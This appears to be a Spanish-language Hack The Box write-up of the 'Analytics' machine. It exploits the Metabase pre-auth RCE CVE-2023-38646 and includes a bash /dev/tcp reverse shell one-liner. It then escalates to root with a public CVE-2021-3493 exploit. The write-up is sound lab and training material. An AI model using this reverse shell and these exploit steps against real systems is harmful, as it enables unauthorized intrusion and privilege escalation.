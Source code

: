 ```yaml
---
layout: single
title: Analytics - Machines - Hack The Box
excerpt: "Analytics es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad en la herramienta Metabase, lo que nos permite la ejecución remota de código (RCE)."
date: 2023-10-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-analytics/analytics.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - burpsuite
  - cve-2023-38646
  - cve-2021-3493
  - rce
  
---
```


![](/assets/images/htb-writeup-analytics/analytics.png)

Analytics es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad en la herramienta Metabase, lo que nos permite la ejecución remota de código (RCE).

# 1. Enumeración
   
Iniciamos con un escaneando de puertos de la máquina con Nmap.

## Portscan
Encontramos dos puertos abiertos. 
 -	22 de SSH 
 -	80 de HTTP

![](/assets/images/htb-writeup-analytics/analytics2.png)

Observamos un dominio y un subdominio que debemos agregar a nuestro archivo /etc/hosts.

![](/assets/images/htb-writeup-analytics/analytics3.png)

Agregamos los dominios y subdominios identificados.

 -	Analytics.htb

 -	Data.analytics.htb

![](/assets/images/htb-writeup-analytics/analytics4.png)

Navegamos sobre el sitio web e identificamos un portal de inicio de sesión donde ejecuta Metabase la cual es una herramienta de inteligencia empresarial de código abierto que le permite crear gráficos y paneles utilizando datos de una variedad de bases de datos y fuentes de datos. 

![](/assets/images/htb-writeup-analytics/analytics5.png)

# 2.	Explotación

Buscamos vulnerabilidades asociadas a esta herramienta e identificamos el CVE-2023-38646 el cual permite un RCE.

 -	PoC: https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

La siguiente carga útil nos permitirá un RCE, para ello vamos a necesitar identificar el token el cual vamos a encontrar en la ruta /api/session/properties.

También vamos a necesitar codificar en base 64 un rever Shell.

 -	bash -i >&/dev/tcp/<IP>/<PORT> 0>&1

![](/assets/images/htb-writeup-analytics/analytics6.png)

Debemos poner nuestro equipo atacante a la escucha por el puerto del reverse Shell y enviar la solicita a través de BurSuite.

![](/assets/images/htb-writeup-analytics/analytics7.png)

Vamos a obtener un Shell como usuario metabase.

![](/assets/images/htb-writeup-analytics/analytics8.png)

Luego de un buen tiempo, ejecutamos el comando “env” vamos a identificar la contraseña del usuario “metalytics”.

![](/assets/images/htb-writeup-analytics/analytics9.png)

Usamos las credenciales obtenidas para iniciar sesión por SSH.

![](/assets/images/htb-writeup-analytics/analytics10.png)

De esta manera obtenemos nuestra primera flag.

![](/assets/images/htb-writeup-analytics/analytics11.png)

# 3.	Escalada de privilegios

Des pues de un tiempo buscando una forma de escalar privilegios, identificamos el siguiente exploit disponible.

-	Expoit: https://github.com/briskets/CVE-2021-3493
  
Vamos a clonarlo a nuetstra maquina y ejecutamos el siguiente comando para generar nuestro script.

-	gcc exploit.c -o exploit
  
Luego vamos a levantar un servidor en nuestra maquina atacante para descargar el exploit a la maquina víctima.

![](/assets/images/htb-writeup-analytics/analytics12.png)

Descargamos nuestro exploit y otorgamos permisos de ejecución.

![](/assets/images/htb-writeup-analytics/analytics13.png)

Ejecutamos nuestro exploit, el cual permitirá elevar privilegios a root. A hora podemos leer nuestra segunda flag.

![](/assets/images/htb-writeup-analytics/analytics14.png)




